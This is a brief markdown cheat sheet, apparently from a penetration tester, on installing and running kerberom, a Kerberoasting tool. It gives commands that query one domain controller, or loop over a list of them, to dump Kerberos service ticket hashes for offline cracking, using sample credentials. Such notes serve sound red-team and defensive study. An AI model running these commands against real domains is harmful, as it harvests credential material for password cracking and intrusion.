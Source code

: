 ## kerberom

https://github.com/Fist0urs/kerberom


### installation

I recommend installing it in a virtualenv because it requires very specific versions.

```
git clone https://github.com/Fist0urs/kerberom
cd kerberom
pipenv shell
pip install -r requirements.txt
```

Next time, it will be possible to use it by simply enter in the virtualenv:

```
source ~/.local/share/virtualenvs/kerberom-*/bin/activate
```

### basic usage

```
python2 ./kerberom.py -u jdupond@contoso.local -d 192.168.0.1 -o kerberoast_13100.hash -p 'P@$$w0rd' -v
```

### strange usage

to check on multi DC (why even doing that?):

```
cat ../targets/scope_dc_ips.txt  | while read ip ; do ~/.virtualenvs/kerberom-Je8c-G6u/local/bin/python2 ~/tools/kerberom/kerberom.py -d $ip -u jdupond@contoso.local -p Passw0rd -v | tee kerberom_$ip.log ; done
```





